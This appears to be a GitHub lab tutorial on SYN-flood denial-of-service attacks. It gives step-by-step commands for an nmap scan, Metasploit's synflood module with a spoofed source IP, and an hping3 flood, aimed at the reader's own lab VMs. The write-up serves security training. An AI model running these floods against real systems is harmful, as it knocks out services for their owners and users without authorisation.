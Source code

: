 # SYN Flooding
A SYN flood is a form of denial-of-service attack in which an attacker sends a succession of SYN requests to a target machine in an attempt to exhaust its resources and make it unresponsive to legitimate incoming traffic.



A TCP session establishes a connection using a three-way handshake mechanism. The source sends a SYN packet to the destination. The destination, on receiving the SYN packet, responds by sending a SYN/ACK packet back to the source. This SYN/ACK packet confirms the arrival of the first SYN packet to the source. In conclusion, the source sends an ACK packet for the ACK/SYN packet sent by the destination. In a SYN attack, the attacker exploits the three-way handshake method. First, the attacker sends a fake TCP SYN request to the target server, and when the server sends a SYN/ACK in response to the client (attacker) request, the client never sends an ACK response. This leaves the server waiting to complete the connection.



***

### Objectives
* Spoof IP address of the attacker machine
* Perform SYN Flooding on the Target machine

### Requisites
* Kali Linux virtual machine
* Windows 10 virtual machine (w/ Firewall off)
* Windows Server 2012 or 2016 virtual machine

## Test for Open Port
Log into the Kali Linux and open a new terminal window.

We are going to perform SYN flooding on Windows 10 through some **open port**. To check what port is open or not,  we will use Nmap to scan all open ports.

`nmap -p- <Windows 10 IP address>`

```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
```

In this lab, we will use an auxiliary module from **Metasploit** named **synflood** to perform DoS attack on the target using port 445.

## Perform DoS attack
Type **msfconsole** to launch Metasploit Framework.

`msfconsole`

Type the command to load the module:

`use auxiliary/dos/tcp/synflood`

To display all the options of the module, type:

`options`

```
Name       Current Setting  Required  Description
----       ---------------  --------  -----------
INTERFACE                   no        The name of the interface
NUM                         no        Number of SYNs to send (else unlimited)
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port
SHOST                       no        The spoofable source address (else randomizes)
SNAPLEN    65535            yes       The number of bytes to capture
SPORT                       no        The source port (else randomizes)
TIMEOUT    500              yes       The number of seconds to wait for new data
```

We will change the RHOST, RPORT and SHOST parameters:

`set RHOST [IP address of Windows 10]`<br>
`set RPORT 445`<br>
`set SHOST [IP address of Windows Server]`

By setting the **SHOST** option to the IP address of Windows Server, you are spoofing the IP address of Kali Linux machine.

Once the auxiliary module is configured, start the DoS attack on Windows 10 by typing:

`run`



This begins the SYN flooding on the Windows 10.

## Examine the DoS Attack
Switch to the Windows 10 machine and launch the [**Wireshark**](https://www.wireshark.org/), select the corret interface and click start.

Wireshark displays the traffic comming from the machine as shown below:



Here, you can observe that the source IP address is from Windows Server. This implies that the IP Address of Kali Linux has been spoofed.

Next, open the **Task Manager** on Windows 10 and click **performance** tab.

You will observe that the CPU and Ethernet usage has increased drastically after the attack, which implies that the DoS attack is in progress. If the attack is continued for some time, the machine's resources would be completely exhausted, and it will stop responding.



To stop the DoS attack, back to Metasploit on Kali and press **Ctrl+C** to terminate attack.

# SYN Flooding using hping3
hping3 is a command-line oriented TCP/IP packet assembler/analyzer.



## Perform SYN flooding using hping3

`hping3 -S [Windows 10 IP address] -a [Kali IP address] -p 22 --flood`



This initiates the SYN flooding on Windows 10.

Hping3 floods the victim machine by sending bulk **SYN bulks** and **overloading** victim resources.

Switch to the Windows 10 and launch the [Wireshark](https://www.wireshark.org/), select the correct interface and start capturing.

Analyze the traffic captured, you will notice the huge number of **SYN packets**, which can cause the target machine to crash.




____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________

